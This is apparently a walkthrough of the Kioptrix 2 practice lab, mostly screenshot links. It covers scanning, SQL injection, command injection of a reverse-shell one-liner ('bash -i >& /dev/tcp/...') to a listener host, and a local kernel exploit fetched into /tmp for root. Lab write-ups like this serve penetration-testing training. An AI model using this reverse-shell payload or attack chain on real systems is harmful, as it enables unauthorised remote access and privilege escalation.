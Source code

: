 # Information gatharing
netdiscover -r 192.168.1.0/24

![image](https://user-images.githubusercontent.com/24206178/154660853-b0398231-8180-4cb9-ac52-7c60bb638c33.png)

![image](https://user-images.githubusercontent.com/24206178/154660890-7524e5cd-4418-4983-af83-78eb06e52feb.png)

Port 80 is open, lets check the website

![image](https://user-images.githubusercontent.com/24206178/154660923-7c2048cd-ef0e-4012-9b1d-d94f5d02fa8c.png)

There is a web site so, there is Nikto

![image](https://user-images.githubusercontent.com/24206178/154661080-3e175915-5734-48a3-875b-ac1e2828f04d.png)

![image](https://user-images.githubusercontent.com/24206178/154661102-194f6c38-00ee-409e-88a2-151b18414017.png)

lets go to the web page and play around

# Exploit

Try sql injection

![image](https://user-images.githubusercontent.com/24206178/154661247-0bd41d46-47f1-41f9-9735-b6f121fdce36.png)

![image](https://user-images.githubusercontent.com/24206178/154661260-14b21347-e24c-4c1b-8b5e-9baaacf063ed.png)


It Works!
; bash -i >& /dev/tcp/192.168.1.3/443 0>&1

![image](https://user-images.githubusercontent.com/24206178/154661282-736fd655-3b59-4d1c-901f-00d9706f0f84.png)

Before hit submit, you should open a listner in your machine using netcat

![image](https://user-images.githubusercontent.com/24206178/154661308-e21d1fdb-3ec3-4743-b159-4659bbc73bf0.png)

![image](https://user-images.githubusercontent.com/24206178/154661345-e7590e29-9f20-4bcc-b83e-9de213737edf.png)


![image](https://user-images.githubusercontent.com/24206178/154661360-17e9fd03-ecd7-4847-bfe1-9729af0c52a4.png)

![image](https://user-images.githubusercontent.com/24206178/154661372-a720404f-beb2-46e7-9157-4145fd1fa1f4.png)

![image](https://user-images.githubusercontent.com/24206178/154661385-2538c596-c571-4429-8149-a118da55adea.png)

We now want to be root

lets try to find a vulnarability using the information we gathered so far

We will use searchsploit

![image](https://user-images.githubusercontent.com/24206178/154661468-e76b9b53-1adb-4913-a941-2e743fe8aa62.png)

the option -w is for display the URL of the exploit in the exploitdb

![image](https://user-images.githubusercontent.com/24206178/154661486-404fd475-a1a1-4d16-9ec7-e017fcf95441.png)

Now lets try to use this

![image](https://user-images.githubusercontent.com/24206178/154661432-a648bcb9-0706-40ec-8721-4835d494b45b.png)

First find it in our local machine

![image](https://user-images.githubusercontent.com/24206178/154661514-20408878-d1b2-4ea8-939e-f07883244d00.png)

Lets create a folder for Kioptrix_2

![image](https://user-images.githubusercontent.com/24206178/154661704-27e60a31-5fa2-469d-97a0-7c17b7c36c39.png)

copy the file there 

![image](https://user-images.githubusercontent.com/24206178/154661726-fcfa2e84-ff3b-477b-a256-f4c75dcbb67c.png)

now we will use SimpleHTTPServer 



Now we can go to out session and download the file

![image](https://user-images.githubusercontent.com/24206178/154661754-ff3e37d7-8a6a-4cbc-937d-3b268660963f.png)

first i try to download it and it faild

![image](https://user-images.githubusercontent.com/24206178/154661771-96fbb0df-11ff-4f86-9f5e-ab03e1a46e14.png)

so we need to download it from a place that have write permmion

let go to tmp and try again

![image](https://user-images.githubusercontent.com/24206178/154661809-90cb7b9d-fd62-4b55-881a-514d7be13133.png)

it works!

Now lets run the exploit

![image](https://user-images.githubusercontent.com/24206178/154661852-593b097f-9599-43cd-82a7-21cabda5755f.png)

![image](https://user-images.githubusercontent.com/24206178/154661868-b387d941-24c2-4c48-acb8-b8f4e075d3d7.png)

![image](https://user-images.githubusercontent.com/24206178/154661883-65799117-b90c-4688-8e94-364dd5918a27.png)

![image](https://user-images.githubusercontent.com/24206178/154661894-d8a21404-fa1f-41ea-999e-4aa2456686b0.png)

BINGO! We are root
